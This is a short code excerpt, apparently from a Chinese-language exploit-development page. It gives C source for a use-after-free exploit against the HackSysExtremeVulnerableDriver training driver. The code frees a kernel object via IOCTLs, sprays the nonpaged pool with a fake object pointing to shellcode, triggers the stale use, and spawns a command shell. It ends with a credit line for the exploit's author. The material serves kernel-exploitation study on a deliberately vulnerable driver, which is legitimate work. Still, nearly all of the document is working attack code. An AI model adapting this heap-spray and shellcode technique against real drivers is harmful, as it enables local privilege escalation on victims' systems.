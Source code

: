 ```c
{
	DWORD recvBuf;
	HANDLE hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",
		GENERIC_READ | GENERIC_WRITE,
		NULL,
		NULL,
		OPEN_EXISTING,
		NULL,
		NULL);
	printf("Start to get HANDLE...\n");
	if (hDevice == INVALID_HANDLE_VALUE || hDevice == NULL)
	{
		printf("获取句柄失败\n");
		return 0;
	}
	printf("Start to call AllocateUaFObject()...\n");
	DeviceIoControl(hDevice, 0x222013, NULL, NULL, NULL, 0, &recvBuf, NULL);
	printf("Start to call FreeUaFObject()...\n");
	DeviceIoControl(hDevice, 0x22201B, NULL, NULL, NULL, 0, &recvBuf, NULL);
	printf("Start to write shellcode()...\n");//

	PUSE_AFTER_FREE fakeG_UseAfterFree = (PUSE_AFTER_FREE)malloc(sizeof(FAKE_USE_AFTER_FREE));

	fakeG_UseAfterFree->countinter = ShellCode;

	RtlFillMemory(fakeG_UseAfterFree->bufffer, sizeof(fakeG_UseAfterFree->bufffer), 'A');

	printf("***********************************\n");
	printf("Start to heap spray...\n");
	for (int i = 0; i < 5000; i++)
	{
		DeviceIoControl(hDevice, 0x22201F, fakeG_UseAfterFree, 0x60, NULL, 0, &recvBuf, NULL); //Allocate FakeObject NonPagedPool IoctlHandler allocate新的object，堆喷 
	}
	printf("Start to call UseUaFObject()...\n");
	DeviceIoControl(hDevice, 0x222017, NULL, NULL, NULL, 0, &recvBuf, NULL);

	printf("Start to create cmd...\n");
	CreateCmd();
	//system("whoami");
	return 0;
}
```

感谢 [Thunder_J](https://thunderjie.github.io/)提供的exp

